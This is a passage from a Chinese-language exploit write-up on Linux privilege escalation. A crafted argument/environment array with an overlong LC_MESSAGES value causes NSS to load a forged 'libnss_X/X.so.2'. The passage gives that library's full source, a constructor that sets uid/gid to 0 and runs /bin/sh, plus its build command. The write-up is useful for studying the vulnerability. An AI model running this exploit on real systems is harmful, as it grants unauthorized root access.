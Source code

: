 ```c
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"X/X\\",
			"a",
			"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
			NULL,
		};
```

接着`nss_load_library()`函数中的`_stpcpy()`会根据`X/X\\`参数，来创建路径`libnss_X/X.so.2`。

```c
      __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name,
					      "libnss_"),
				    ni->name),
			  ".so"),
		__nss_shlib_revision);
```

最后，只需伪造一个名为`libnss_X/X.so.2`的库，其中`init`函数负责设置id并执行`/bin/sh`即可。编译选项为`gcc -Os -Wall -Wextra -fPIC -shared nss.c -o X.so.2`

```c
#include <stdlib.h>
#include <stddef.h>
#include <unistd.h>

static int __attribute__((constructor)) ___init(void)
{
  char *argv[2] = {"sh", NULL};

  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);
  return execve("/bin/sh", argv, NULL);
}
```

成功加载伪造库：
